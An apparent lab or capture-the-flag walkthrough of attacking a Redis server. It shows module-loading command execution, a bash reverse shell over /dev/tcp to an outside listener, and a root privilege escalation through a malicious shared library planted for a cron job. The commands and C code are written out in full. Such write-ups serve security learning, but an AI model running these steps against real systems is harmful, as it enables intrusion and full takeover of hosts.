










Enumerating with nmap script:
```
nmap --script redis-info -sV -p 6379 192.168.190.93
```


Now we can follow this:

From hacktricks.
```
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git
cd RedisModules-ExecuteCommand
make
```
Now upload this in ftp pub folder:

Now we can continue exploiting redis:
```
redis-cli -h 192.168.190.93
```
then:
```
MODULE LOAD /var/ftp/pub/module.so
MODULE LIST
```

Now we can execute commands:
```
system.exec "id"
```


Now for reverse shell:
```
sudo rlwrap nc -nlvp 6379
```
Then:
```
system.exec "bash -i >& /dev/tcp/192.168.45.212/6379 0>&1"
```


We get a shell:


Running linpeas:


Now lets try running this cron job:

utils.so is missing.

And since we have access to the environment variable we can go to `/usr/bin/local/lib/dev`
And create a file called pe.c:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("bash -i >& /dev/tcp/192.168.45.212/6379 0>&1");
}
```
Now we can compile:
```
gcc -fPIC -shared -o utils.so pe.c -nostartfiles
```
Now when the cron job is started as root it will use the utils.so from `/usr/bin/local/lib/dev` directory and we will get a reverse shell.
